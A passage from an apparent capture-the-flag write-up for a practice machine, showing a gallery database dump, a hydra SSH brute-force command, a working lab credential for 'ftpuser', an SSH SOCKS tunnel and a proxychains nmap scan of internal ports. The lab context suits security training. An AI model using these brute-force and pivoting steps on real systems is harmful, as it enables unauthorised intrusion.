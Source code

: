 ```
|  1 | images/thumbs/thmb_art01.jpg  | images/fulls/art01.jpg  | Visual Art                   | A pure showcase of skill and emotion.                                           |
|  2 | images/thumbs/thmb_eng02.jpg  | images/fulls/eng02.jpg  | The Beauty and the Beast     | Besides the technology, there is also the eye candy...                          |
|  3 | images/thumbs/thmb_nat01.jpg  | images/fulls/nat01.jpg  | The uncontrollable lightshow | When the sun decides to play at night.                                          |
|  4 | images/thumbs/thmb_arch02.jpg | images/fulls/arch02.jpg | Nearly Monochromatic         | One could simply spend hours looking at this indoor square.                     |
|  5 | images/thumbs/thmb_mind01.jpg | images/fulls/mind01.jpg | Way ahead of his time        | You probably still use some of his inventions... 500yrs later.                  |
|  6 | images/thumbs/thmb_mus02.jpg  | images/fulls/mus02.jpg  | The outcomes of complexity   | Seriously, listen to Dust in Interstellar's OST. Thank me later.                |
|  7 | images/thumbs/thmb_arch01.jpg | images/fulls/arch01.jpg | Back to basics               | And centuries later, we want to go back and live in nature... Sort of.          |
|  8 | images/thumbs/thmb_mind02.jpg | images/fulls/mind02.jpg | We need him back             | He might have been a loner who allegedly slept with a pigeon, but that brain... |
|  9 | images/thumbs/thmb_eng01.jpg  | images/fulls/eng01.jpg  | In the name of Science       | Some theories need to be proven.                                                |
| 10 | images/thumbs/thmb_mus01.jpg  | images/fulls/mus01.jpg  | Equal Temperament            | Because without him, music would not exist (as we know it today).               |
+----+-------------------------------+-------------------------+------------------------------+---------------------------------------------------------------------------------+
```

Looks like this is just the images, paths and descriptions. It is interesting though, as these don't really need to be in a database, so it appears that the images are being pulled to the website from the database somehow.

Since we don't have a good foothold through the website, we'll try using hydra to test all username/password combinations against ssh. We first need to make two lists (users.txt and passwords.txt) with all of the usernames and password we've gathered so far:

```
hydra -L users.txt -P passwords.txt 10.10.10.187 -t 4 ssh

ftpuser
%n?4Wz}R$tTF7
```

Looks like the ftpuser credentials work. However, whenever we try to open an ssh connection the the box, it instantly closes. To get around this, we can use a tunnel:

```
ssh -f ftpuser@admirer.htb -D 9050 -N
```

We can now run nmap with proxychains to scan the internal ports of the machine:

```
proxychains nmap 127.0.0.1

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```
